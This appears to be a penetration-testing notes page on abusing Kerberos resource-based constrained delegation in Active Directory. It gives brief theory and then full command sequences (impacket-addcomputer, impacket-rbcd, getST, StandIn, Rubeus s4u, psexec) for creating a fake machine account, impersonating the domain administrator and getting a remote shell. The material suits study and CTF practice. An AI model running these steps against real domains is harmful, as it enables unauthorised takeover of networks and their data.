


---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Resource-Based


All information found below has been adapted from [Attl4s](https://attl4s.github.io/) [video-presentation](https://www.youtube.com/watch?v=vlKwCTvp5_w) and its corresponding [slide deck](https://attl4s.github.io/assets/pdf/You_do_\(not\)_Understand_Kerberos_Delegation.pdf).


## Theory

The trust is configured on the servive that receives delegated credentials (`msDS-AllowsToActOnBehalfOfOtherIdentity`), in this case, `sql01` instead of `web01` (Figure 1). We configure `sql01` to trust `web01` which means that the latter will be able to access the former on behalf of anyone; `web01` has `GenericAll` over `sql01`.

<figure><figcaption><p>Figure 1: The main difference between CD and RBCD (<em>image taken from</em> <a href="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html"><em>here</em></a><em>)</em>.</p></figcaption></figure>

<figure><figcaption><p>Figure 2: The RBCD process (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>)</em>.</p></figcaption></figure>

## Exploitation

### Prerequisites

1. A domain account with `WRITE` access to the target SPN account for setting the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute to it.
2. Permission to create a SPN account (`MachineAccountQuota`).

### Attack

1. Create a fake computer.
2. Set `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target.
3. Request impersonated Service Tickets (`S4U`) for the target computer.

#### Linux


```bash
# add a machine account
impacket-addcomputer -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-ip <ip> '<domain/user:pass>'
# set rbcd attribute
impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'dc$' -action 'write' '<domain/user:pass>' -dc-ip 10.10.11.174
# generate ST for the admin account
impacket-getST -spn 'cifs/<fqdn>' -impersonate 'administrator' 'domain/ATTACKERSYSTEM$:Summer2018!'
```


For an example of the above process check [Support](../../../../boxes/easy/support.md#rbcd).

#### Windows

```powershell
# create a computer account
.\StandIn.exe --computer <name> --make
# get the SID of the computer account
Get-ADComputer -Filter * | Select-Object Name, SID
# set the RBCD attribute
.\StandIn.exe --computer <dc> --sid <sid>
```

We need the value of the password md4-encrypted for Rubeus.

```bash
python3
>>> import hashlib,binascii
>>> hash = hashlib.new('md4', "<pass>".encode('utf-16le')).digest()
>>> print(binascii.hexlify(hash))
```


```powershell
# generate the ST
.\Rubeus.exe s4u /user:<name> /rc4:<value> /impersonateuser:administrator /msdsspn:cifs/<fqdn> /nowrap /ptt
```


Although the ticket is generated, it does not work locally. Copy paste the b64 encoded block locally, decode it, convert it, and then use it.

```bash
# paste the ticket
nano ticket.b64
# decode it
cat ticket.b64 | base64 -d > ticket.kirbi
# convert it from kirbit to ccache for Linux usage
impacket-ticketConverter ticket.kirbi ticket.ccache
# export the ticket
export KRB5CCNAME=<ticket-path>
# use the ticket
impacket-psexec -k -no-pass <domain>/administrator@<fqdn> -dc-ip <ip>
```

## Resources

*

